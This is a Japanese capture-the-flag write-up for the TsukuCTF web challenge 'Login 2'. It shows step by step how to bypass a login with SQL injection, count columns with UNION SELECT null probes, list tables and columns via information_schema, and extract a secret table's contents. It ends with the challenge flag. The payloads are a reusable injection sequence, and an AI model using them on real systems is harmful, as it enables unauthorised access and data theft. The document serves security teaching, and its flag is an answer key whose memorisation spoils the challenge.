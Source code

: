 ```yaml
---
title: Login2
description: union select  によるSQLi
author: FullteaOfEEIC
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
> 
> https://tsukuctf.sechack365.com/problems/login2
> 
> ※ この問題では/problems/login2以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login2では、SQL injectionが可能な場所を見つけた後に、適切なInjectionによりデーターベース内の情報を探索することでflagを得ることができます。

まずUsernameに``` ' or 1=1 ; -- ```を指定すると、図のようなログイン画面![login2](./login2.png)が表示されます。どうやらここにSQLiができそうです。
```UNION SELECT``` で情報を抜くために、まずSELECT文のカラム数を特定します。
Usernameとして ```' union select null ; -- ```,  ```' union select null, null ; -- ```,  ```' union select null, null, null ; -- ```  ...とnullの数を増やしていくと、nullが2個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL内のデータに関する情報は、```information_schema.columns```というテーブルに収納されています。まずは、ここの```table_name```というカラムを見るのが定石です。ということで、Usernameに

```
' UNION SELECT table_name, null FROM information_schema.columns; -- 
```
を入力してログインすると、```super_secret_table```というテーブルがあることがわかります。多分flagはここでしょう。
次に、カラム名を知るために、Usernameを

```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; -- 
```
としてログインします。すると、idとsecretというカラムがあることがわかります。
最後に、

```
' UNION SELECT secret, null FROM super_secret_table; -- 
```

とすればflagがゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```